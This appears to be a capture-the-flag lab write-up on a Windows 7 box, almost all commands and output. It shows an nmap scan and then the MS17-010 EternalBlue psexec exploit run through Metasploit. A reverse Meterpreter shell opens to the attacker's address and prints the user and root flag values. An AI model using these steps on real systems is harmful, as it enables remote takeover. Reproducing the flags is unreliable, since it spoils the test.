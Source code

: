 # How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.40`  

<details><summary>nmap 実行結果</summary>   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-09 17:28 JST
Nmap scan report for 10.10.10.40
Host is up (0.25s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-09T08:34:10
|_  start_date: 2021-02-09T08:25:02

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 442.27 seconds
</details>

###  Summary
PORT    STATE SERVICE     VERSION   
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC

```
msf6 > search smb 2 exploit windows remote

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/ms17_010_command                        2017-03-14       normal     No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1   auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop                   normal     No     Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop
   2   auxiliary/dos/windows/smb/ms11_019_electbowser                               normal     No     Microsoft Windows Browser Pool DoS
   3   exploit/multi/http/struts_code_exec_classloader             2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   exploit/multi/ids/snort_dce_rpc                             2007-02-19       good       No     Snort 2 DCE/RPC Preprocessor Buffer Overflow
   5   exploit/windows/browser/java_ws_double_quote                2012-10-16       excellent  No     Sun Java Web Start Double Quote Injection
   6   exploit/windows/fileformat/ms13_071_theme                   2013-09-10       excellent  No     MS13-071 Microsoft Windows Theme File Handling Arbitrary Code Execution
   7   exploit/windows/fileformat/ms14_060_sandworm                2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   8   exploit/windows/misc/hp_dataprotector_cmd_exec              2014-11-02       excellent  Yes    HP Data Protector 8.10 Remote Command Execution
   9   exploit/windows/oracle/extjob                               2007-01-01       excellent  Yes    Oracle Job Scheduler Named Pipe Command Execution
   10  exploit/windows/scada/ge_proficy_cimplicity_gefebt          2014-01-23       excellent  Yes    GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   11  exploit/windows/smb/group_policy_startup                    2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   12  exploit/windows/smb/ipass_pipe_exec                         2015-01-21       excellent  Yes    IPass Control Pipe Remote Command Execution
   13  exploit/windows/smb/ms06_025_rasmans_reg                    2006-06-13       good       No     MS06-025 Microsoft RRAS Service RASMAN Registry Overflow
   14  exploit/windows/smb/ms06_025_rras                           2006-06-13       average    No     MS06-025 Microsoft RRAS Service Overflow
   15  exploit/windows/smb/ms17_010_eternalblue                    2017-03-14       average    Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   16  exploit/windows/smb/ms17_010_eternalblue_win8               2017-03-14       average    No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   17  exploit/windows/smb/ms17_010_psexec                         2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   18  exploit/windows/smb/smb_doublepulsar_rce                    2017-04-14       great      Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 18, use 18 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0

msf6 exploit(windows/smb/ms17_010_psexec) > show options 

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                              Required  Description
   ----                  ---------------                                                              --------  -----------
   DBGTRACE              false                                                                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                                           yes       How many times to try to leak transaction
   NAMEDPIPE                                                                                          no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /opt/metasploit-framework/embedded/framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                10.10.10.40                                                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                                no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                               no        The service display name
   SERVICE_NAME                                                                                       no        The service name
   SHARE                 ADMIN$                                                                       yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                                            no        The Windows domain to use for authentication
   SMBPass                                                                                            no        The password for the specified username
   SMBUser                                                                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.40:49160) at 2021-02-09 18:09:33 +0900


meterpreter > pwd
C:\Windows\system32

meterpreter > cd "C:\Users\Administrator\desktop"
meterpreter > ls
Listing: C:\Users\Administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 15:56:36 +0900  desktop.ini
100444/r--r--r--  32    fil   2017-07-21 15:56:49 +0900  root.txt

meterpreter > type root.txt
[-] Unknown command: type.
meterpreter > cat root.txt
ff548eb71e920ff6c08843ce9df4e717
meterpreter > ls
Listing: C:\Users\haris\desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-14 22:45:52 +0900  desktop.ini
100666/rw-rw-rw-  32    fil   2017-07-21 15:54:02 +0900  user.txt

meterpreter > cat user.tx
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat user.txt
4c546aea7dbee75cbd71de245c8deea9
meterpreter > 




```
